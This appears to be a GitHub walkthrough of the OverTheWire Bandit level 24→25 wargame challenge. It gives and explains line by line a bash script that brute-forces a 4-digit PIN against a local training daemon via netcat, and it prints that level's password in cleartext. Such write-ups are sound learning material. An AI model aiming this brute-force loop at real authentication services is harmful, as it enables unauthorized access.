 # Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time.

### Commands: 

![image](https://github.com/user-attachments/assets/191c6931-2cd0-4225-bfa7-6019287356ad)

![image](https://github.com/user-attachments/assets/20a494de-988c-4c55-adae-1f8022639f31)

![image](https://github.com/user-attachments/assets/1bfd1c8f-07ab-4d2e-8625-2acd8148b448)



## Brute-Forcing Script Explanation

This script attempts to brute-force a 4-digit PIN required to get the password for the next level in the Bandit challenge. 
Here's a step-by-step breakdown of the script and its syntax.

### Script Explanation

```bash
#!/bin/bash

# Retrieve the password for bandit24
PASS=gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

# Open a connection to the daemon
{
    # Loop through all 4-digit PIN combinations
    for PIN in $(seq -f "%04g" 0 9999); do
        # Send the password and PIN
        echo "$PASS $PIN"
        sleep 1  # Optional: Add a delay between attempts to avoid overwhelming the server
    done
} | nc localhost 30002
```

#### Detailed Breakdown

1. **`#!/bin/bash`**  
   This line specifies that the script should be run using the Bash shell.

2. **`PASS=gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`**  
   - `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8` is the password of the current level which is required as per the question.
   - This assigns the content (password) of the file to the variable `PASS`.

3. **`{ ... }` Block**  
   - The curly braces `{ ... }` create a code block to group multiple commands together, allowing us to pipe the combined output to the `nc` command.
   
4. **`for PIN in $(seq -f "%04g" 0 9999); do`**  
   - `for PIN in ...` starts a loop that will go through each possible 4-digit PIN from 0000 to 9999.
   - `seq -f "%04g" 0 9999` generates all 4-digit numbers from 0000 to 9999. The `-f "%04g"` option ensures each number has exactly 4 digits (e.g., 0001, 0023).
   - `for PIN in ... ; do ... done`: This is a loop that goes through each PIN from 0000 to 9999.
seq -f "%04g" 0 9999: This command generates a sequence of numbers from 0000 to 9999. The `-f "%04g"` part makes sure each number is 4 digits long, padding with zeros when necessary (e.g., 0001, 0050).

5. **`echo "$PASS $PIN"`**  
   - `echo` prints the password and current PIN combination, separated by a space, which is the required format mentioned in the question.
   - This output will be sent to the `nc` command, which is connected to the server on port 30002.

6. **`sleep 1` (Optional)**  
   - `sleep 1` pauses the script for one second between each PIN attempt to avoid overwhelming the server.

7. **`| nc localhost 30002`**  
   - `|` is the pipe operator, sending the output of the block to the `nc` (Netcat) command.
   - `nc localhost 30002` establishes a connection to the server running on `localhost` at port `30002`, which is waiting for the password and PIN.
   
#### Summary

This script brute-forces the 4-digit PIN by attempting each possible PIN in sequence. It sends each combination of the password and PIN to the server until it finds the correct PIN, at which point the server will return the next level's password.

## Some references: 
[seq command](https://www.geeksforgeeks.org/seq-command-in-linux-with-examples/)
